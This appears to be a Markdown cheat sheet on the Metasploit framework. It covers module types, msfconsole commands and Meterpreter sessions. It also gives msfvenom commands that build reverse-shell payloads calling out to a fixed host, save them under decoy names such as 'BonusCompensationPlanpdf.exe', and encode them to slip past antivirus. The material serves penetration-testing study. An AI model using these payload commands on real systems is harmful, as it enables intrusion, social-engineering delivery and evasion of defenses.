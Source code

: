 ```yaml
---
# Metasploit
---
```

The `Metasploit Project` is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute the exploit code. This exploit code can be custom-made by the user or taken from a database containing the latest already discovered and modularized exploits. The `Metasploit Framework` includes a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. At its core, the `Metasploit Project` is a collection of commonly used tools that provide a complete environment for penetration testing and exploit development. Files usually located at `/usr/share/metasploit-framework`.

- **What is MS Module?**
A module is a piece of software that the Metasploit Framework uses to perform a task, such as exploiting or scanning a target. A module can be an exploit module, auxiliary module, or post-exploitation module.

## Architecture

1. **Auxiliary** - Any supporting module, such as scanners, crawlers and fuzzers.
2. **Encoders** - Will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them. 
3. **Evasion** - While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software. On the other hand, “evasion” modules will try that, with more or less success.
4. **Exploits** - Exploits, neatly organized by target system.
5. **NOPs** -  `(No Operation code)` Keep the payload sizes consistent across exploit attempts.
6. **Payloads** - Payloads are codes that will run on the target system.
7. **Post** - Post modules would be useful in post-exploitation.
 
## Useful MSFconsole Commands

- **Specific Search**
```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

- **Get more info about module**
```bash
info
```

- **MSF - Permanent Target Specification**
```bash
msf6 exploit(windows/smb/amogus) > setg RHOSTS 13.13.13.13
```

- **Show and Set Target for exploit**
```bash
msf6 exploit(windows/browser/goose) > show targets
...
msf6 exploit(windows/browser/goose) > set target 3
```

- **Searching for Specific Payload**
```bash
msf6 exploit(windows/smb/goose) > grep meterpreter grep reverse_tcp show payloads
```

- **Use Local Exploit Suggester**
```bash
msf6 > search local exploit suggester
```
## MSFvenom

**Msfvenom is a tool that is part of the Metasploit framework and it is a command line tool for generating different types of payloads for exploiting.** In addition to providing a payload with flexible delivery options, MSFvenom also allows us to `encrypt & encode` payloads to bypass common anti-virus detection signatures.
- **List Payloads**
```bash
msfvenom -l payloads
```
- **Building a Stageless Payload for Linux**
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f elf > createbackup.elf
```
- **Building a Stageless Payload for Windows**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

### Staged vs Stageless Payloads
**`Staged` payloads create a way for us to send over more components of our attack.** So if more simply, the whole payload has few stages, first to get connection and others to load additional programs

**`Stageless` payloads do not have a stage.** So all payload and programs are loaded at first time.

## Meterpreter

`The Meterpreter` payload is a specific type of multi-faceted payload that uses `DLL injection` to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes. Meterpreter resides completely in the memory of the remote host and leaves no traces on the hard drive, making it very difficult to detect with conventional forensic techniques.

## Encoder

- **Generating Payload - With Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

- **List Encoders**

```bash
msf6 exploit(windows/smb/goose) > show encoders
```

- **MSF - VirusTotal**

```bash
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

## Sessions

- **Listing Active Sessions**

```bash
msf6 exploit(windows/smb/goose) > sessions
```

- **Interacting with a Session**

```bash
msf6 exploit(windows/smb/goose) > sessions -i 1
```

- **Backgrounding session**

```bash
meterpreter > background
OR
Ctrl+Z
OR
meterpreter > bg
```

- **Killing session**

```bash
msf6 exploit(windows/smb/goose) > sessions -k 1
```

- **Listing Running Jobs**

```bash
msf6 exploit(multi/handler) > jobs -l
```

- **Run an Exploit as a Background Job**

```bash
msf6 exploit(multi/handler) > exploit -j
```
